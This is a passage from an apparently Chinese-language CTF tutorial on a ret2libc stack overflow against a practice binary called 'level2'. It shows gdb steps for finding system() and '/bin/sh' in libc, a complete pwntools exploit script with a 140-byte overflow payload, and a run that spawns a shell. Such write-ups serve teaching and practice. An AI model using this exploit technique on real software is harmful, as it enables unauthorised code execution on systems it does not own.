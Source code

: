 ```
#!bash
$ gdb ./level2
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
….
(gdb) break main
Breakpoint 1 at 0x8048430
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level2 

Breakpoint 1, 0x08048430 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e5f460 <system>
(gdb) print __libc_start_main
$2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
(gdb) find 0xb7e393f0, +2200000, "/bin/sh"
0xb7f81ff8
warning: Unable to access target memory at 0xb7fc8500, halting search.
1 pattern found.
(gdb) x/s 0xb7f81ff8
0xb7f81ff8:  "/bin/sh" 
```

我们首先在main函数上下一个断点，然后执行程序，这样的话程序会加载libc.so到内存中，然后我们就可以通过”print system”这个命令来获取system函数在内存中的位置，随后我们可以通过” print __libc_start_main”这个命令来获取libc.so在内存中的起始位置，接下来我们可以通过find命令来查找”/bin/sh”这个字符串。这样我们就得到了system的地址0xb7e5f460以及"/bin/sh"的地址0xb7f81ff8。下面我们开始写exp：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./level2')
#p = remote('127.0.0.1',10002)

ret = 0xdeadbeef
systemaddr=0xb7e5f460
binshaddr=0xb7f81ff8

payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)

p.send(payload)

p.interactive() 
```

要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是”/bin/sh”字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。下面我们测试一下exp：

```
#!python
$ python exp2.py 
[+] Started program './level2'
[*] Switching to interactive mode
$ whoami
mzheng 
```
